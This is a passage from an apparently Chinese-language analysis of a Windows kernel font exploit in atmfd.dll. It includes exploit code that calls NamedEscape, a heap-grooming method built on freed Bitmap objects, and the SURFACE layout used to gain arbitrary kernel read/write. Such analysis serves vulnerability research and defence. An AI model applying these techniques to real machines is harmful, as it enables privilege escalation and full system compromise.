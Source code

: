 ```
38   
39  if (lpTable->locals->is64)
40  *(unsigned int*)(inbuf + 4) = tmp[1];
41   
42  __MEMSET__(outbuf, 0, sizeof(outbuf));
43   
44  //call an internal atmfd.dll function which receives a kernel font object as input and validates it
45  //also returning data that identifies the font
46  if (lpTable->locals->is64) {
47  ret = NamedEscape(NULL, wcAtmfd, 0x250A, 0x10, inbuf, 0x10, outbuf);
48  }else {
49  ret = NamedEscape(NULL, wcAtmfd, 0x250A, 0x0C, inbuf, 0x0C, outbuf);
50  }
51   
52  if (ret != 0xFFFFFF21) {
53  char *p;
54   
55  if (lpTable->locals->is64)
56  p = outbuf + 8;
57  else
58  p = outbuf + 4;
59   
60  if (__MEMCMP__(p, lpTable->lpLoaderConfig->strFontEgg, 8) == 0) {
61  found = 1;
62  break;
63  }
64  }
65  }
66  }

```

2 触发漏洞，实现写入Bitmap对象

攻击代码首先会分配多个0xb000大小的对象，然后找到9个相邻的Bitmap对象并释放中间的3个，这样就在内核win32k堆内存中留下了0xb000*3= 0x21000大小的空洞，接着攻击代码调用NameDEscape-atmfd的0x2514号命令来读取超长的Charset，触发漏洞。

在这个NamedEscape调用到atmfd过程中，会分配内核对象来复制一份输入的缓存，这里攻击代码将输入的缓存大小设置为0x20005，由于页对齐的原因，这里正好可以占住上面我们说到的0x21000大小的空洞内存。

这样在最终符号溢出时，就会写入到这块Buffer上面未被释放的Bitmap对象中，这就通过精确地堆操作完成了将这个符号溢出导致的缓存上溢转换到对已控制的Bitmap对象的写入。 这个转化的流程如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/ca5088d65c90d5dfac2b74c66735b9b955cec70e.jpg)

3 将Bitmap写入转换为内核任意地址读写

在第2步我们讲到这里可以通过操作字体接口，将OTF文件的Charset处理的符号溢出漏洞转换为覆盖Bitmap对象内存的操作，这里我们来看看Bitmap对象在win32k中是如何组织的：它实际是一个 SURFACE对象，结构如下：

```
01  typedef struct {
02  unsigned int handle0;
03  unsigned int unk0[4];
04  unsigned int handle1;
05  unsigned int unk1[2];
06  unsigned int width;
07  unsigned int height;
08  unsigned int size;
09  unsigned int address0;
10  unsigned int address1;
11  unsigned int scansize;
12  unsigned int unk2;
13  unsigned int bmpformat;
14  unsigned int surftype;
```